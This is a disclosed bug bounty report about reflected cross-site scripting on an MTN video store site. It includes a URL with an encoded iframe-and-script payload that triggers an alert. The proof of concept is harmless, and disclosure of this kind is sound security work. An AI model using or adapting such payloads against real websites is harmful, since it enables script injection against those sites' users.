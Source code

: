 # Reflected xss on videostore.mtnonline.com

## Report Details
- **Report ID**: 1646248
- **URL**: https://hackerone.com/reports/1646248
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-07-22T11:03:04.189Z
- **Disclosed**: 2022-09-25T19:10:11.387Z

## Reporter
- **Username**: possowski
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
## Summary:
Hi,
I found reflected xss vuln on videostore.mtnonline.com

## Steps To Reproduce:
  1. Open browser
  2. Go to ``https://videostore.mtnonline.com/GL/Default.aspx?PId=126&CId=5&OprId=11&Ctg=OF25MTNNGVS_LapsInTime%22%27testxxx%3E%3Ciframe%20src=%22data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E%22%3E%3C/iframe%3E`` url
 3. Browser show alert popup

## Impact

We can run javascript code

## Attachments
No attachments
